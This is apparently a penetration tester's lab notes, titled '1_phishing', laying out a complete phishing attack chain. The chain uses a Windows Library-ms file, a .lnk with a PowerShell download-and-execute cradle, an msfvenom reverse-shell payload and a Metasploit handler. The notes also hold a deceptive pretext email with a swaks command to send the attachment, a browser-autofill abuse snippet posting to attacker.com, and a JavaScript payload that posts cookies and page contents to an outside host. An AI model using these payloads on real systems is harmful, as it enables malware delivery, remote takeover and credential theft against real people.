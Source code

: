 <% tp.file.rename("1_phishing")%>


## Creating the Payloads
- 1st stage: config.Library-ms
  This opens our remotely hosted 2nd stage dropper like it was a local folder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://HIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- 2nd stage (autoconfig.lnk)
```powershell
powershell.exe -NoExit -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/revshell.ps1'); revshell"
```

- 3rd stage
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.163 LPORT=4444 NOEXIT -f raw -o revshell.ps1
```
>  MUST remove the gibberish from the beginning and end of the file, otherwise the payload won't work

## Setup C2

- Host the 2nd stage via webdav (shell 1)
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

- Create a copy of the library and use that to transfer those two files to kali
> Always keep an unused version of this library file as it might get unusable once opened

- Host the 3rd stage via HTTP (shell 2)
```bash
python3 -m http.server 8000
```

- Receive reverse shell (shell 3)
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/powershell_reverse_tcp; set LHOST $hip; set LPORT $hport; set ExitOnSession false; run -j"
```

## Send Phish
- Example contents for body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

- Shell 4
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --body @body.txt --header "Subject: Staging Script" --suppress-data --server $ip_mailserver [-au $username -ap $password]
```


# Abuse Browser Autofill
```
await fetch('/users/logout')
let r = await fetch('/users')
document.body.innerHTML = await r.text()
history.replaceState(null, null,'/loginlol')
Form.action = '[https://attacker.com](https://attacker.com)' // dosnt work bc of csp :(
```

# Gather information
```javascript
(function(){
	if(window.name!=='__'){

            try {dcoo = document.cookie} catch(e) {dcoo=null}
            try {inne = document.body.parentNode.innerHTML} catch(e) {inne=null}
            try {durl = document.URL} catch(e) {durl=null}
            try {oloc = opener.location} catch(e) {oloc=null}
            try {oloh = opener.document.body.innerHTML} catch(e) {oloh=null}
            try {odoc = opener.document.cookie} catch(e) {odoc=null}

            var _ = document.createElementNS('http://www.w3.org/1999/xhtml', 'form');
			var __= document.createElementNS('http://www.w3.org/1999/xhtml', 'input');
            var body = document.getElementsByTagName('body')[0];

			__.setAttribute('value',escape(dcoo+'\r\n\r\n'+inne+'\r\n\r\n'+durl+'\r\n\r\n'+oloc+'\r\n\r\n'+oloh+'\r\n\r\n'+odoc));
			__.setAttribute('name','_');
			_.appendChild(__);
			_.action='https://cure53.de/m/';
			_.method='post';
            //_.target='_blank';

			body.appendChild(_);
			window.name='__';
			_.submit();
			//history.back();
	} else {window.name=''}
})();
```
Thanks to cure53